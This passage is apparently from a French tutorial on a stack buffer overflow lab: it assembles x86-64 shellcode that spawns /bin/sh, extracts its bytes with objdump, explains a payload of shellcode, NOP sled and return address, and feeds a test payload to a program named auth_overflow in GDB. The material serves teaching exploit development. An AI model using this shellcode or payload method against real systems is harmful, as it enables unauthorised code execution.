 ```bash
# Assemblage
nasm -f elf64 shellcode.asm -o shellcode.o

# Édition de liens
ld -o shellcode shellcode.o
```

### Extraction du shellcode

```bash
objdump -d shellcode | grep -Po '\s\K[0-9a-f]{2}(?=\s)' | paste -sd '' - | sed 's/\(..\)/\\x\1/g'
```

**Résultat :**
```
\x48\x31\xc0\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb0\x3b\x0f\x05
```

### Explication de la commande d'extraction

1. **`objdump -d shellcode`** : Désassemble le fichier exécutable
2. **`grep -Po '\s\K[0-9a-f]{2}(?=\s)'`** : Extrait les octets hexadécimaux
3. **`paste -sd '' -`** : Concatène toutes les lignes
4. **`sed 's/\(..\)/\\x\1/g'`** : Ajoute le préfixe `\x` à chaque octet

## Construction du payload

Le payload se compose de trois parties :
1. **Shellcode** : Code à exécuter
2. **NOP sled** : Instructions `\x90` pour faciliter l'exploitation
3. **Adresse de retour** : Pointe vers le début du shellcode

## Analyse avec GDB

### Lancement du débogueur
```bash
gdb -q ./auth_overflow
```

### Affichage du code source
```bash
(gdb) list 1
```

### Placement d'un breakpoint
```bash
(gdb) b 11
```

### Exécution avec payload de test
```bash
(gdb) r $(perl -e 'print "\x48\x31\xc0\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb0\x3b\x0f\x05" . "\x90"x(10)')
```
